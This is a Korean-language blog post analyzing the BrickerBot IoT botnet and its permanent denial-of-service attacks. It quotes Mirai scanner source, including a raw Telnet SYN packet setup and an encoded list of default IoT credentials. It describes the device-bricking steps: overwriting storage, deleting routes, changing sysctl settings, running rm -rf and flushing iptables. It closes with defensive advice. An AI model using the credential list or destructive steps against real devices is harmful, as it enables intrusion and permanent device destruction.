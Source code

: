 ```yaml
---
layout: post
title:  "IoT Botnet Bricker_Bot"
tag:   Analysis
categories: IoT Analysis bot persu
modified: 2017-04-26
comments: true
featured: true
---
```


## Bricker botnet


본 글은 최근 이슈가 되고 있는 IoT Botnet인 Bricker에 대해 조사해 보았다.

- Botnet : https://ko.wikipedia.org/wiki/%EB%B4%87%EB%84%B7

IoT 시대에서 많은 디바이스들이 점차적으로 인터넷을 사용하게 되는 초연결 사회가 이뤄지고 있다. 이런 IoT의 가용성을 해치는 PDoS 공격이 급증하고 있다.

- PDoS(Permanent Denial of Service attacks) : 영구적인 서비스 거부 공격

이러한 PDoS 공격은 시스템을 손상시켜 하드웨어를 교체하거나 다시 설치해야 하는 공격이다. 시스템을 과부화를 일으키는 DDoS와는 약간 다른 형태의 DoS다.

1,895 건의 PDoS 공격을 일으킨 Bricker_Bot은 두 차례 공격 시도를 하였으며, C&C 서버는 TOR Node에 의해 발견되지 않았다.

Bricker_Bot의 공격 방식은 "Telnet brute force" 에서 부터 시작된다. Telnet brute force은 Mirai에서 사용된 것과 동일한 공격 코드이며, 아래 github에서 내용을 확인 할 수 있다.

- Mirai code : https://github.com/jgamblin/Mirai-Source-Code

Telnet brute force 방식에 사용되었던 자체 DB는 아래 소스 코드와 같다.

- Telmet brute force : https://github.com/jgamblin/Mirai-Source-Code/blob/master/mirai/bot/scanner.c

```c

    // Set up IPv4 header
    iph->ihl = 5;
    iph->version = 4;
    iph->tot_len = htons(sizeof (struct iphdr) + sizeof (struct tcphdr));
    iph->id = rand_next();
    iph->ttl = 64;
    iph->protocol = IPPROTO_TCP;

    // Set up TCP header
    tcph->dest = htons(23);
    tcph->source = source_port;
    tcph->doff = 5;
    tcph->window = rand_next() & 0xffff;
    tcph->syn = TRUE;

    add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x41\x11\x17\x13\x13", 10);                     // root     xc3511
    add_auth_entry("\x50\x4D\x4D\x56", "\x54\x4B\x58\x5A\x54", 9);                          // root     vizxv
    add_auth_entry("\x50\x4D\x4D\x56", "\x43\x46\x4F\x4B\x4C", 8);                          // root     admin
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x43\x46\x4F\x4B\x4C", 7);                      // admin    admin
    add_auth_entry("\x50\x4D\x4D\x56", "\x1A\x1A\x1A\x1A\x1A\x1A", 6);                      // root     888888
    add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x4F\x4A\x46\x4B\x52\x41", 5);                  // root     xmhdipc
    add_auth_entry("\x50\x4D\x4D\x56", "\x46\x47\x44\x43\x57\x4E\x56", 5);                  // root     default
    add_auth_entry("\x50\x4D\x4D\x56", "\x48\x57\x43\x4C\x56\x47\x41\x4A", 5);              // root     juantech
    add_auth_entry("\x50\x4D\x4D\x56", "\x13\x10\x11\x16\x17\x14", 5);                      // root     123456
    add_auth_entry("\x50\x4D\x4D\x56", "\x17\x16\x11\x10\x13", 5);                          // root     54321
...
```

기본적인 Telnet 을 구성하기 위해 TCP/IP Protocol Header을 구성하고, add_auth_entry에 있는 IoT 디바이스의 초기 계정을 접근하게 구성하였다.

"Telnet brute force"를 통해 시스템에 접근하게 되면(shell 접근을 의미) 먼저 장치 손상(Corrupting a Device)을 입히게 됩니다.

### Corrupting a Device

PDos의 가장 큰 목적인 장치 손상은 Linux shell code를 실행 시켜 인터넷 연결, 장치 성능이 정의된 파일을 지우는 명령을 수행한다.

<img src="{{ site.url }}/images/persu/brickerbot1.jpg" style="display: block; margin: auto;">

플래시 카드, 메모리 등 표준과 일치하는 저장 매체가 랜덤한 값으로 덮어 쓰여지게 된다.
이후 route del을 통해 routing table을 삭제하게 된다. 이럴 경우 리눅스는 다시 routing 작업을 실시하게 되는데 이를 막기 위해 sysctl 명령을 통해 커널 매개 변수를 조작하게 된다.

- net.ipv4.tcp_timestamps=0 : TCP timestamps를 0으로 설정 WAN 구간에서 네트워크가 안되는 현상 발생
- kernel.threads-max=1 : 커널에서 발생할 수 있는 최대 스레드를 -1로 설정

이렇게 되면 저장매체에 있는 데이터는 임의의 값으로 초기화가 될 것이며, 네트워크 통신 또한 이뤄지지 않게 된다.

### Target
일차적으로 공격 대상이 되는 IoT 디바이스는 Mirai_Bot에 존재하는 auth_entry 계정을 가진 디바이스이며, busybox 기반의 Telnet을 지원하는 디바이스이다. 이 디바이스는 공인망에 포트가 오픈되어 있는 특징을 가지게 된다.
더 나아가 dropbear SSH 와 같이 22번 포트가 오픈되어 있는 디바이스 또한 공격의 대상이 되기도 한다.


전 세계적으로 한번에 333 여곳에서 PDoS를 발생시켰어며, 다음 명령 수행을 하는 bricker_bot version 2는 아래와 같다.

<img src="{{ site.url }}/images/persu/brickerbot2.jpg" style="display: block; margin: auto;">

rm -rf 를 통해 모든 장치를 지워버리며, TCP timestamps 비활성화, 커널 스레드 최대수 1 뿐 만 아니라 iptables를 초기화 하며 NAT 규칙까지 삭제하고 out-bound packet을 차단하게 되어 네트워크 통신이 이뤄지지 않도록 구성한다.


### Time
두 PDoS 공격은 같은 날과 거의 같은 시간에 시작되었다. 2017 년 3 월 20 일 9.51PM, 2017 년 3 월 20 일 9.10PM 두 차례 발생하였다. BrickerBot.1의 첫 번째 PDoS 공격은 중지되었지만 더 치밀하게 TOR 출구 노드를 사용하는 BrickerBot.2의 공격은 여전히 ​​활성화되어 진행 중이다.

### Protecting
BrickerBot 감염을 막기 위해서는 가장 기본적인 대응방안이 필요하다. 각 디바이스는 Telnet, SSH와 같은 원격 단말 관리 서비스를 비활성화 시켜야 하며, 필요에 의해 활성화 시킬 경우 각 디바이스 별로 유니크한 패스워드 정책을 수립해야 한다. 특히 SSH 사용 시 로그인 방식이 아닌 키교환을 통해 로그인할 수 있도록 구성헤야 한다.
